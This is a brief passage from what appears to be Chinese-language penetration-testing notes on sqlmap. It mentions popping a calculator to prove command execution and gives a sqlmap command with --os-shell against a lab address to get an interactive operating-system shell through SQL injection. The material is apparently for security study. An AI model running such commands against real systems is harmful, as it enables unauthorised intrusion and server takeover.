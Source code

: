 需要输入服务器的目录地址

![image-20240412115725848](../图片/image-20240412115725848.png)

弹出计算器

![image-20240412115752923](../图片/image-20240412115752923.png)

##### 执行交互式命令

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1  --os-shell
```

输入服务器的目录地址

![image-20240412115914415](../图片/image-20240412115914415.png)

